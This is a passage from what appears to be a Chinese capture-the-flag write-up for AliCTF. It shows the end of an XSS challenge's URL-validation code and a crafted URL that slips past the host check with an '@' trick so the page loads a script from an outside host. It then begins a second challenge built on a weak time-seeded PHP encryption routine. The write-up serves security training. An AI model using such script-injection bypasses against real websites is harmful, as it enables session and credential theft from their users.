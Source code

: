 ```
        this.illegal = true;
        return;
      }
      if(this.username && this.username.indexOf('\\') > -1){
        this.illegal = true;
        return;
      }
      if(this.password && this.password.indexOf('\\') > -1){
        this.illegal = true;
        return;
      }
      if(this.authority != 'notexist.example.com'){
        this.illegal = true;
        return;
      }
    }
    URL.prototype.get = function(){
      if(this.illegal){
        return 'default.js';
      }else{
        return this.url;
      }
    }
  </script>
</head>
<body>
  <script type="text/javascript">
    var url = new URL(location.search.substr(1));
    url.validate()
    url = url.get()
    $.getScript(url)
  </script>
</body>
</html>

```

读 JavaScript 代码，构造地址：

```
http://ef4c3e7556641f00.alictf.com/xss.php?http://notexist.example.com:@notexist.example.com:@ricter.me:9999/  

```

加载的 JavaScript 脚本和 XSS100 相同。

0x10 简单业务逻辑2
============

* * *

```
<!--
  function encrypt($plain) {
    $plain = md5($plain);
    $V = md5('??????'); 
    //var_dump($V);
    $rnd = md5(substr(microtime(),11));

    //var_dump(substr(microtime(),11)+mt_rand(0,35));
    $cipher = '';
    for($i = 0; $i < strlen($plain); $i++) {
        $cipher .= ($plain[$i] ^ $rnd[$i]);
    }
    $cipher .= $rnd;
```